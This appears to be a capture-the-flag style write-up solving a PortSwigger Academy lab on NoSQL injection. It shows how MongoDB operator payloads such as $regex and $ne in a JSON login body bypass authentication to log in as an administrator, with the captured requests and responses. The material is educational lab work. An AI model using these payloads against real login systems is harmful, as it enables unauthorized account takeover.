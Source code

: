## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ae988849-49c1-4d58-a786-6d008dc8fd0c)

## Solution :

When we try to login a wiener, the following is the request being sent.

```http
POST /login HTTP/1.1
Host: 0a2e004e0498675c8294e27d00550012.web-security-academy.net
Cookie: session=FidptxGNO2o5A1gT6hVGVo0ahawPmQaa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2e004e0498675c8294e27d00550012.web-security-academy.net/login
Content-Type: application/json
Content-Length: 40
Origin: https://0a2e004e0498675c8294e27d00550012.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"wiener","password":"peter"}
```
If we use - `{"username":{"$in":"admininistrator"},"password":{"$ne":""}}` , it won't login, since the name of admin user is not administrator but some random string like *admin@fra12*.

Use the **regex** operator to login as any user whose name starts with admin.
```json
{"username":{"$regex":"admin*"},"password":{"$ne":""}}
```

The above nosql payload takes any username that starts with admin  & checks whether the password is not equal to null value (which will result in TRUE since there will be no password which is null.)

From the response we can see that the name of admin user is - `adminsmto9bvx`
```http
HTTP/2 302 Found
Location: /my-account?id=adminsmto9bvx
Set-Cookie: session=fGElqIm2RxpmcGKeA1faciz8HjHYRQ8G; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
Upon opening the response in browser, we can see that we've logged in as admin & the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/471abd07-405b-4a6f-b76e-9513a383329b)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9c6bfc75-9c52-4764-b8ba-6ae626a50d97)
